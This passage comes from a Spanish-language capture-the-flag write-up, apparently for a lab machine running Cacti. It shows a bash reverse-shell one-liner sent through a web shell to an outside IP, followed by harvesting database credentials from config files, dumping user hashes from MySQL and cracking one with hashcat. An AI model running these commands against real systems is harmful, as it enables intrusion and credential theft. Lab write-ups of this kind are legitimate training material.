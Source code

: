 Por lo que si ejecutamos este comando con el parametro "cmd" de la *web shell* obtenemos una *reverse shell*:
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.204/443 0>&1"
```

Siempre y cuando nos pongamos en escucha con `nc` por el puerto 443:
![[Pasted image 20240826225511.png]]

Para podernos manejarnos con la *reverse shell* de forma cómoda hacemos el tratamiento de la TTY:
![[Pasted image 20240826225647.png]]
![[Pasted image 20240826225732.png]]


## Escalada de privilegios
Una vez como el usuario "www-data" podemos acceder a `/var/www/app/admin` para listar las credenciales de la base de datos que están dentro del archivo "db.php" y así poder enumerar la base de datos más fácilmente:
![[Pasted image 20240826230342.png]]

Accedemos a MySQL con este comando:
![[Pasted image 20240826230503.png]]

Y listar los usuarios, contraseñas y emails:
![[Pasted image 20240826230816.png]]

Como vemos "Marcus" es el administrador por lo que si listamos los usuarios del sistema, vemos que existe el usuario "marcus".
![[Pasted image 20240826231006.png]]

Pero no podemos reutilizar la credencial.

Si accedemos a `/var/www/html/cacti/include` podemos ver el archivo "config.php" que contiene las credenciales de la base de datos:
![[Pasted image 20240827000432.png]]

Que podemos reutilizar para conectarnos de nuevo a MySQL:
![[Pasted image 20240827000500.png]]

Como vemos hay una nueva base de datos:
![[Pasted image 20240827000524.png]]

Por lo que si listamos sus tablas vemos una interesante:
![[Pasted image 20240827000557.png]]

Por lo que si mostramos su contenido vemos unos *hashes*:
![[Pasted image 20240827000704.png]]

Como el usuario que nos interesa es "marcu"s podemos intentar *crackear* su contraseña con `hashcat`:
![[Pasted image 20240827000828.png]]
